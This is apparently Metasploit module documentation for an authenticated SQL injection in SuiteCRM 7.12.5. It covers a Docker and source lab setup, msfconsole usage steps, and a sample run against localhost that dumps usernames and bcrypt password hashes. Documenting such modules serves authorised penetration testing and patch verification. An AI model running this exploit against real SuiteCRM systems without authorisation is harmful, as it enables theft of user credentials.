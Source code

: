 ## Description
This module exploits an authenticated SQL injection in SuiteCRM installations below or equal to version 7.12.5. The 
vulnerability allows for union and blind boolean based SQLi to be exploited in order to collect usernames and password 
hashes from the SuiteCRM database.

## Vulnerable Application

The SQLi exploited by this module depends on the existence of at least one 'Account' being registered in SuiteCRM.
There should be one in SuiteCRM by default for the administrative user. If you want to test multiple users,
browse to `/index.php?module=Users&action=index` and then click the `Create New User` button on the left side
of the screen. Then enter a username and a last name. Then click the `password` tab, and enter a password for
the user, then confirm this password and click the `Save` button to create the user.

### Docker compose

**Prerequisites:** [Docker](https://docs.docker.com/get-docker/) and
[Docker Compose](https://docs.docker.com/compose/install/) must be
installed first.

To create a SuiteCRM 7.12.5 Docker container, first create a new folder, 
then save the following content as `docker-compose.yml`:

```
version: '2'
services:
  mariadb:
    image: docker.io/bitnami/mariadb:10.6
    environment:
      # ALLOW_EMPTY_PASSWORD is recommended only for development.
      - ALLOW_EMPTY_PASSWORD=yes
      - MARIADB_USER=bn_suitecrm
      - MARIADB_DATABASE=bitnami_suitecrm
      - MARIADB_PASSWORD=bitnami123
    volumes:
      - 'mariadb_data:/bitnami/mariadb'
  suitecrm:
    image: docker.io/bitnami/suitecrm:7.12.5
    ports:
      - '80:8080'
      - '443:8443'
    environment:
      - SUITECRM_DATABASE_HOST=mariadb
      - SUITECRM_DATABASE_PORT_NUMBER=3306
      - SUITECRM_DATABASE_USER=bn_suitecrm
      - SUITECRM_DATABASE_NAME=bitnami_suitecrm
      - SUITECRM_DATABASE_PASSWORD=bitnami123
      # ALLOW_EMPTY_PASSWORD is recommended only for development.
      - ALLOW_EMPTY_PASSWORD=yes
    volumes:
      - 'suitecrm_data:/bitnami/suitecrm'
    depends_on:
      - mariadb
volumes:
  mariadb_data:
    driver: local
  suitecrm_data:
    driver: local 
```

Finally, in the same directory as the `docker-compose.yml` file, run: `docker-compose up -d`.

Note that the default username to log in will be `user` and the password will be `bitnami`. If you
want to change these, put the following lines under the `environment` section:

```
    environment:
      - SUITECRM_USERNAME=my_user
      - SUITECRM_PASSWORD=my_password
```

The above would set the username to `my_user` and the password to `my_password`.

For more information on the docker compose file, refer to
https://github.com/bitnami/containers/tree/main/bitnami/suitecrm.

### Install from source

Source code can be found here: [SuiteCRM v7.12.5](https://github.com/salesagility/SuiteCRM/archive/refs/tags/v7.12.5.tar.gz) 

Instructions on installing from source can be found here: [Installation Guide](https://docs.suitecrm.com/admin/installation-guide/downloading-installing/) 

The following setup was installed on Ubuntu 20.04:

1. Setup and install MySQL:
    1. `sudo apt update`
    1. `sudo apt install mysql-server`
    1. `sudo systemctl start mysql.service`
    1. `sudo mysql` (open the mysql prompt)
    1. `mysql> ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY 'password';` (change the password 
       of the root user)
       
1. Install Apache
    1. `sudo apt install apache2`
    1. `sudo systemctl enable apache2`
    1. `sudo systemctl start apache2`
       
1. Install php and its dependencies
    1. `sudo apt -y install php7.4`
    1. `sudo apt install -y php-cli php-common php-curl php-mbstring php-gd php-mysql php-soap php-xml php-imap php-intl php-opcache php-json php-zip`
    1. `sudo apt install composer`
    1. `composer install`
    
1. Setup and install SuiteCRM 7.12.5
    1. `wget https://github.com/salesagility/SuiteCRM/archive/refs/tags/v7.12.5.tar.gz`
    1. `gunzip v7.12.5.tar.gz`
    1. `tar -xvf v7.12.5.tar`
    1. `sudo cp -r SuiteCRM-7.12.5/. /var/www/html`
    1. `cd /var/www/html`
    1. `sudo chown -R www-data:www-data .`
    1. `sudo chmod -R 755 .`
    1. `sudo chmod -R 775 custom modules themes data upload`
    1. `sudo chmod 775 config_override.php 2>/dev/null`
    1. Navigate to http://localhost/install.php and follow the installation wizard to complete the install
    

## Verification Steps

1. Start up metasploit
1. Do: `use auxiliary/gather/suite_crm_export_sqli`
1. Do: `set RHOSTS [IP]`
1. Configure a user and password by setting `USERNAME` and `PASSWORD`.
1. Do: `run`

## Scenarios

### SuiteCRM 7.12.5 Bitnami Docker Image
```
msf6 payload(windows/x64/meterpreter/reverse_tcp) > use auxiliary/gather/suite_crm_export_sqli 
msf6 auxiliary(gather/suite_crm_export_sqli) > show options

Module options (auxiliary/gather/suite_crm_export_sqli):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   COUNT     3                no        Number of users to enumerate
   PASSWORD                   yes       Password for user
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasp
                                        loit
   RPORT     80               yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   USERNAME                   yes       Username of user
   VHOST                      no        HTTP server virtual host


Auxiliary action:

   Name              Description
   ----              -----------
   Dump credentials  Dumps usernames and passwords from the users table


msf6 auxiliary(gather/suite_crm_export_sqli) > set USERNAME user
USERNAME => user
msf6 auxiliary(gather/suite_crm_export_sqli) > set PASSWORD bitnami
PASSWORD => bitnami
msf6 auxiliary(gather/suite_crm_export_sqli) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 auxiliary(gather/suite_crm_export_sqli) > check

[*] Authenticating as user
[+] Authenticated as: user
[*] Version detected: 7.12.5
[+] 127.0.0.1:80 - The target is vulnerable.
msf6 auxiliary(gather/suite_crm_export_sqli) > run
[*] Running module against 127.0.0.1

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Authenticating as user
[+] Authenticated as: user
[*] Version detected: 7.12.5
[+] The target is vulnerable.
[*] Fetching Users, please wait...
SuiteCRM User Names
===================

 Username
 --------
 testuser
 user

[*] Fetching Hashes, please wait...
[+] (1/2) Username : testuser ; Hash : $2y$10$YFr9.QNPVDXoLKv5FQo7d.UIRBSMTnPGDS2LLHsuGSojAA2Q5kELa
[+] (2/2) Username : user ; Hash : $2y$10$O83wcCVEfY7GKo//dbQwwOFOevfLFnhpP4d9n98HmGM2YPxJZqMhO
SuiteCRM User Credentials
=========================

 Username  Hash
 --------  ----
 testuser  $2y$10$YFr9.QNPVDXoLKv5FQo7d.UIRBSMTnPGDS2LLHsuGSojAA2Q5kELa
 user      $2y$10$O83wcCVEfY7GKo//dbQwwOFOevfLFnhpP4d9n98HmGM2YPxJZqMhO

[*] Auxiliary module execution completed
msf6 auxiliary(gather/suite_crm_export_sqli) > 
```